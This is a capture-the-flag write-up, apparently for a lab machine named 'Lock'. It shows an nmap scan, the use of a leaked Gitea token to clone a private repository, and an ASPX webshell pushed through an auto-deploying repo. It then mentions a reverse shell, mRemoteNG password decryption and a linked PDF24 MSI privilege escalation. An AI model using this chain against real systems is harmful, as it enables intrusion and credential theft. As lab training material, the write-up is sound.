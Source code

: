 ```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=22d7f7046c315183; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=py_Ez-k9JVaDfFdcFPOngcYRogA6MTcxMzYzNDg1NjY2ODg1MjcwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 20 Apr 2024 17:40:56 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=1849576a481e700f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=6Tw9yRNNM32FP0UJc3_4iFV1sAI6MTcxMzYzNDg2MjM2ODcyMzkwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 20 Apr 2024 17:41:02 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2023-12-27T14:19:36
|_Not valid after:  2024-06-27T14:19:36
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-20T17:42:22+00:00
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

There is a website on port 80:
![](attachment/a93c7ebe26009b82766a81bfdc76b7d9.png)

There is a website on port 3000:
![](attachment/03dd77fa3776819e9f1657af86c3d47a.png)

There is a repo with a script:
![](attachment/2cfc2e18c49f92716bded6d66871f23f.png)
Checking commits:
![](attachment/0123bd1273fbb6e742c5aa56f45f23de.png)
We get the access token

Now we can list repositories:
```
curl -H "Authorization: token 43ce39bb0bd6bc489284f2905f033ca467a6362f" "http://10.10.108.22:3000/api/v1/user/repos" | jq
```
![](attachment/c8db88c521616fd381e7c676b30cb243.png)
We get a private repository

Now since we have the access token we might be able to clone it

Using username as `ellen.freeman` and password as the token:
![](attachment/7cf14eb0260ddc08025f6f8c0322b556.png)

Now we have access to the *website* repository
Reading the readme.md:
![](attachment/4d785d7fec3ebdc9713aca260088488b.png)

Any changes we make will be deploy:
Now uploading a [webshell](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx)
```
git add shell.aspx
git commit -am "Shell added
git push
```
Now we can access the webshell:
![](attachment/2a94241237643e0dccc646ffcfb044c2.png)

Now getting a reverse shell and checking documents folder we find config.xml for *mremoteNG* 
Now we can decode the password:
![](attachment/2079fa5f3f7225b60e5b2e8c8ed470d4.png)

Using mremoteng_decrypt:
![](attachment/86f6abe3395329ff6dd9eabd590eef5d.png)

Now on desktop:
![](attachment/56d0c0380696d8b3516eecea9b324e55.png)
We have PDF24 toolbox

And checking hidden folder `_install` on c drive we find the msi file:
![](attachment/9cb6f4a4079c948c8c5e636c75c5f9d6.png)

Then following the privesc from https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/
We get a system shell.
